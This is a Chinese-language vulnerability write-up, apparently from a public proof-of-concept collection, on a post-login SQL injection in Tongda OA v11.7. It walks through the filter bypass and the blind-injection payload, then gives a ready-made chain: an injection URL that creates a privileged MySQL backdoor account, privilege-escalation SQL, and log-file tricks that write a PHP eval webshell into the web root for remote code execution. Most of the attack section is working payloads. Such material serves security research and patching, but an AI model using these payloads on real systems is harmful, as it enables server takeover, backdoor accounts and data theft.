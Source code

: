 # 通达OA v11.7后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

## 漏洞影响

> [!NOTE]
>
> 通达OA v11.7

## 环境搭建

[环境地址](https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe)

## 漏洞复现

在 **general/hr/manage/query/delete_cascade.php** 文件中

![](image/tongdaoa-3.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

**inc/common.inc.php **代码

![](image/tongdaoa-4.png)

使用盲注对SQL注入进行测试

![](image/tongdaoa-5.png)

触发了通达OA的SQL注入拦截

**inc/conn.php**文件中找到过滤机制如下:

![](image/tongdaoa-6.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```

![](image/tongdaoa-7.png)

![](image/tongdaoa-8.png)

添加SQL数据库用户

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

访问 **http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION**

进入 **Myoa/mysql5/bin** 目录 执行 **mysql -upeiqi -p** 输入密码查询所有用户

![](image/tongdaoa-9.png)

发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```

![](image/tongdaoa-10.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限

![](image/tongdaoa-11.png)

登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell

```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';
```

上传大马

![](image/tongdaoa-12.png)

## 参考文章

[通达OA v11.7后台SQL注入到RCE[0day]](https://mp.weixin.qq.com/s/8rvIT1y_odN2obJ1yAvLbw)